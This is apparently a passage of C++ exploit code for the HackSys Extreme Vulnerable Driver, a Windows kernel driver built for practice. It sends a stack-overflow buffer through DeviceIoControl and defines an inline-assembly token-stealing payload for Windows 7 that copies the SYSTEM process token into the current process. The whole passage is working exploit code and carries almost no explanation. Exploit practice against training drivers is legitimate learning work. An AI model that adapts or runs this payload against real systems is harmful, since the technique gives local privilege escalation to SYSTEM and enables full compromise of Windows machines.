 ```c++
    printf("[+] Sending buffer with IOCTL: 0x%x\n", HEVD_IOCTL_BUFFER_OVERFLOW);
    
    BOOL result = DeviceIoControl(
        hDevice,
        HEVD_IOCTL_BUFFER_OVERFLOW,
        lpInBuffer,
        inBufferSize,
        nullptr,
        0,
        &bytesReturned,
        nullptr
    );

    if (!result) {
        printf("[-] Failed to send IOCTL to HEVD Driver: %lu\n", GetLastError());
        return -1;
    }

    printf("[+] IOCTL sent successfully to HEVD driver!\n");

    printf("[+] Freeing input buffer...\n");
    HeapFree(GetProcessHeap(), 0, (LPVOID)lpInBuffer);

    return 0;
}

__declspec(naked) VOID TokenStealingPayloadWin7Generic() {
    __asm {
        pushad                               ; Save registers state
        
        ; Start of Token Stealing Stub       
        xor eax, eax                         ; Set ZERO
        mov eax, fs:[eax + KTHREAD_OFFSET]   ; Get nt!_KPCR.PcrbData.CurrentThread
                                             ; _KTHREAD is located at FS:[0x124]
        
        mov eax, [eax + EPROCESS_OFFSET]     ; Get nt!_KTHREAD.ApcState.Process
        
        mov ecx, eax                         ; Copy current process _EPROCESS structure
        
        mov edx, SYSTEM_PID                  ; WIN 7 SP1 SYSTEM process PID = 0x4
        
        SearchSystemPID:
            mov eax, [eax + FLINK_OFFSET]    ; Get nt!_EPROCESS.ActiveProcessLinks.Flink
            sub eax, FLINK_OFFSET
            cmp [eax + PID_OFFSET], edx      ; Get nt!_EPROCESS.UniqueProcessId
            jne SearchSystemPID
        
        mov edx, [eax + TOKEN_OFFSET]        ; Get SYSTEM process nt!_EPROCESS.Token
        mov [ecx + TOKEN_OFFSET], edx        ; Replace target process nt!_EPROCESS.Token
                                             ; with SYSTEM process nt!_EPROCESS.Token
        ; End of Token Stealing Stub
        
        popad                                ; Restore registers state

        ; Kernel recovery stub
        xor eax, eax                        ; Set return value to 0
        pop ebp                             ; Restore ebp
        ret 8                               ; Return the expected value
    }
}
```
